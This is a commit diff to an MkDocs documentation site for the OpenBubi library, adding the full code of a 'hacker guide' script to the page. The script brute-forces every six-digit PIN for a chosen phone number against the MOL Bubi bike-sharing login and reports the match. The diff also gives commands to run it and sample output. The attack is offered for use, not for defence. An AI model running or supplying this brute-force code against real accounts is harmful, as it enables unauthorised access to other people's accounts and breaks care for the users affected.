

Before and after one commit to PiciAkk/OpenBubi-Docs, an MkDocs documentation site: the page built from docs/usage/pymodule/hackerguide.md, in a window 1280 px wide and 1400 px high, scrolled down 1039 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 1669 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
a lot of typo fix, and I add
I fixed a lot of typo, and I added complete code to `hackerguide.md`

````diff
--- a/docs/usage/pymodule/hackerguide.md
+++ b/docs/usage/pymodule/hackerguide.md
@@ -67,5 +67,81 @@
   if ("error" in list(json.loads(user.info()).keys())) == False: # there is no error
     print(f"Match! The pin is {currentNum}")
     quit() # quit the program
+```
+
+The complete code is:
+
+```python
+import sys # for path manipulation
+sys.path.append("../") # add openbubi.py's folder to the current path
+import openbubi
+import json # for converting openbubi output to dictionary
+import itertools # for making an iterable object with all the six-digit numbers
+import getpass # for getting input from the user without echoing
+
+phoneNumber = getpass.getpass("Please enter a phone number: ")
+
+# make an iterable object that contains all six-digit numbers, and iterate through that
+for i in itertools.product("0123456789", repeat=6):
+  # convert the elements of the current tuple to a string
+  currentNum = "".join(i)
+  # print currentNum out
+  print(currentNum)
+  # make a new BubiUser instance with the password `currentNum`
+  user = openbubi.BubiUser(phoneNumber, currentNum)
+  """
+  Really long line, but I'll explain it.
+  If there is an error while logging in, MOL Bubi returns an error code like this:
+
+  {
+  "server_time": 1635867338,
+  "error": {
+    "code": 1,
+    "message": "A felhasználó nem található, vagy a bejelentkezés nem sikerült.",
+    "reference": "61815aca3f4fe"
+    }
+  }
+
+  There is a JSON object, that contains an error key with a value that contains
+  another JSON object with the error code, error message, and reference.
+  So, if we want to detect login failure, we need to check if there is a key named "error".
+  So we need to:
+  1. Convert the output of user.login() to a dictionary
+  2. Convert all the keys of this dictionary into a list
+  3. Check if the statement 'there is an element in that list called error' is false
+  4. If that is false, then we got no errors, and the pin is correct
+  """
+  if ("error" in list(json.loads(user.info()).keys())) == False: # there is no error
+    print(f"Match! The pin is {currentNum}")
+    quit() # quit the program
+```
+
+## Usage
+
+Go to the program's directory
+
+```bash
+cd bubiforce
+```
+
+Run the program
+
+```bash
+python bubiforce.py
+```
+
+Example output:
 
 ```
+Please enter a phone number:
+
+000000
+000001
+000002
+000003
+...
+```
+
+## Source code
+
+I uploaded the source code of this program to [GitHub](https://github.com/PiciAkk/OpenBubi/blob/main/bubiforce/bubiforce.py)
````
Also changed, not shown: other parts of docs/usage/pymodule/hackerguide.md (+1 -1 lines), docs/usage/pymodule/termux.md (+1 -1 lines).
